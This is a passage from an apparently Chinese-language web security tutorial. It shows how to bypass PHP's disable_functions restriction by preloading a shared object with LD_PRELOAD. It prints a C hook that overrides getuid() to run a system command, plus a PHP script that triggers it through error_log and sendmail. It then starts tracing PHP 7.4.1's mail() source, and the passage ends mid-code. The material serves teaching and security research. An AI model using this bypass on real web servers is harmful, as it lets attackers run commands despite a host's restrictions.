 ```
/*bypass_system.c*/

#include&lt;unistd.h&gt;
#include&lt;sys/types.h&gt;
#include&lt;stdlib.h&gt;

uid_t getuid(void)`{`
    if(getenv("LD_PRELOAD") == NULL)`{`
        return 0;
    `}`
    unsetenv("LD_PRELOAD");
    system("whoami");
`}`
```

```
//system.php
&lt;?php
system("whoami");
putenv("LD_PRELOAD=/home/php_learn/bypass_system.so");
error_log("a",1);
?&gt;
```

运行system.php可以发现利用`LD_PRELOAD`成功对**system函数**进行绕过:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01edb660218e60770a.png)

下面透过PHP内核来看`mail()`函数是如何调用新进程的？<br>
首先看一下`mail()`的函数原型：

```
mail($to, $subject, $message, $additional_headers = null, $additional_parameters = null)
```

在PHP7.4.1中对mail()进行分析

```
PHP_FUNCTION(mail)
`{`
    char *to=NULL, *message=NULL;
    char *subject=NULL;
    zend_string *extra_cmd=NULL, *str_headers=NULL, *tmp_headers;
    zval *headers = NULL;
    size_t to_len, message_len;
    size_t subject_len, i;
    char *force_extra_parameters = INI_STR("mail.force_extra_parameters");
    char *to_r, *subject_r;
    char *p, *e;

    ZEND_PARSE_PARAMETERS_START(3, 5)
        Z_PARAM_STRING(to, to_len)
        Z_PARAM_STRING(subject, subject_len)
        Z_PARAM_STRING(message, message_len)
        Z_PARAM_OPTIONAL
        Z_PARAM_ZVAL(headers)
        Z_PARAM_STR(extra_cmd)
    ZEND_PARSE_PARAMETERS_END();

    /* ASCIIZ check */
    MAIL_ASCIIZ_CHECK(to, to_len);
    MAIL_ASCIIZ_CHECK(subject, subject_len);
    MAIL_ASCIIZ_CHECK(message, message_len);
    if (headers) `{`
        switch(Z_TYPE_P(headers)) `{`
```
